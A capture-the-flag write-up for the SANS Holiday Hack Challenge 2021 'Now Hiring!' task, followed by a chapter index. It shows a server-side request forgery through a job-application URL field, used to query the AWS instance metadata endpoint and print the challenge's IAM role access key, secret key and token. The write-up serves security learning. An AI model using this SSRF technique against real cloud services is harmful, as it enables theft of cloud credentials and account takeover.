 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 10. Now Hiring!
### 10.0. Description
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)

### 10.2. Hints
**AWS IMDS Documentation** - *Noxious O. D'or*: “The AWS documentation for IMDS is interesting reading.”

#### 10.3. Solution
The application form allows the insertion of an URL under the name of “URL to your public NLBI report”:  
![Apply](imgs/00_Apply.png)

I gave the URL of a computer I own and observed the application was fetching the URL specified without much control:
```bash
root@debian:~/hiring# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 …
34.132.188.111 - - [06/Jan/2022 08:44:41] "GET / HTTP/1.0" 200 -
34.132.188.111 - - [06/Jan/2022 08:44:56] code 404, message File not found
34.132.188.111 - - [06/Jan/2022 08:44:56] "GET /non-existent HTTP/1.0" 404 -
34.132.188.111 - - [06/Jan/2022 08:46:56] "GET /test_test_test HTTP/1.0" 200 -
```

When the file does not exist (`non-existent`), the application is just accepted:  
![01_non-existent.png](imgs/01_non-existent.png)

In case the file exist (`test_test_test`), the application shows more data:
![02_existent.png](imgs/02_existent.png)

Inspecting the broken image link, it is possible to recognize it is returning the content of the test page:
```bash
root@debian:~/hiring# curl "https://apply.jackfrosttower.com/images/asd.jpg"
Hi, I'm a test file!
```

At that point it was pretty straightforward to go ahead and test with AWS URLs considering the side challenge.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials I retrieved the `jf-deploy-role` user.
Submitting the URL http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role:
```json
{
  "Code": "Success",
  "LastUpdated": "2021-05-02T18:50:40Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
  "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
  "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
  "Expiration": "2026-05-02T18:50:40Z"
}
```

As the challenge required the `SecretAccessKey`, it is `CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX`.

#### 10.4. Thank you for the proxy
![meme](imgs/03_meme.png) https://knowyourmeme.com/memes/i-too-like-to-live-dangerously

---
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)
## 14. [Bonus! Blue Log4Jack](/14.%20Bonus!%20Blue%20Log4Jack/README.md)
## 15. [Bonus! Red Log4Jack](/15.%20Bonus!%20Red%20Log4Jack/README.md)
## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)
## 7. [Printer Exploitation](/07.%20Printer%20Exploitation/README.md)
## 8. [Kerberoasting on an Open Fire](/08.%20Kerberoasting%20on%20an%20Open%20Fire/README.md)
### 8.1. [Side Challenge - HoHo … No](/08.%20Kerberoasting%20on%20an%20Open%20Fire/08.01.%20Side%20Challenge%20-%20HoHo%20…%20No/README.md)
## 9. [Splunk!](/09.%20Splunk!/README.md)
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)